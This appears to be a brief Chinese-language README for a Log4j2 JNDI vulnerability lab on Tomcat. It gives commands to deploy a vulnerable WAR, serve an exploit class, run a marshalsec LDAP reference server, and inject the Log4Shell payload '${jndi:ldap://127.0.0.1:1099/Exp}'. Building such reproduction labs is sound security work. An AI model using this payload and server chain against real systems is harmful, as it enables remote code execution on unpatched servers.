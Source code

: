 # log4j2 jndi tomcat 漏洞环境

## 部署war包

```
mv log4j_demo/out/artifacts/log4j_demo tomcat/webapps
```

## 基础操作

```
cd marshalsec

python3 -m http.server 8888

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#Exp 1099
```

## 测试

```
${jndi:ldap://127.0.0.1:1099/Exp}
```

![image-20211210160538626](pic/image-20211210160538626.png)



![image-20211210160816201](pic/image-20211210160816201.png)